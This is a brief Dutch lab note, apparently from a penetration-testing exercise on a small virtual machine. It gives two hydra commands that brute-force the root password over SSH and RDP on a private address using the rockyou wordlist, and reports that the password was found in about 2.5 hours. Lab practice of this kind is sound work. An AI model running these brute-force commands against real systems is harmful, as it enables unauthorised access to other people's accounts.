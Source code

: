 > [!INFO] >
> Hardeschijf 20 GB
> 2 CPU
> RAM 2 GB
>

```
commando: ssh attack

# hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

```

```
commando: RDP attack

# hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 rdp

```

> [!INFO] >
>ongeveer 2,5 uur voor het juiste wachtwoord skillz word gevonden
>

![[Pasted image 20230217115848.png]]